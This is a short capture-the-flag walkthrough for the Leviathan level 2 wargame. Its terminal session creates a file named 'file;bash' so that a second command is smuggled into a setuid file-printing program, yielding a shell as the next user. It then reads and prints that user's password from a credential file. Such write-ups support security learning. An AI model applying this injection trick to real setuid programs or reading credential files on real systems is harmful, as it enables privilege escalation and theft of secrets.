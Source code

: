 ## leviathan2

```bash
leviathan2@gibson:~$ ls
printfile
leviathan2@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$ mktemp -d
/tmp/tmp.I0DqyO6nxz
leviathan2@gibson:~$ cd /tmp/tmp.I0DqyO6nxz
leviathan2@gibson:/tmp/tmp.I0DqyO6nxz$ touch 'file;bash'
leviathan2@gibson:/tmp/tmp.I0DqyO6nxz$ ls
file;bash
leviathan2@gibson:/tmp/tmp.I0DqyO6nxz$ cd ~
leviathan2@gibson:~$ ./printfile /tmp/tmp.I0DqyO6nxz/file\;bash 
/bin/cat: /tmp/tmp.I0DqyO6nxz/file: Permission denied
leviathan3@gibson:~$ ls
printfile
leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3
Q0G8j4sakn
```
- ` touch 'file;bash' `- By using a semicolon, you are attempting to execute the command "bash" after running "printfile" to gain an interactive shell.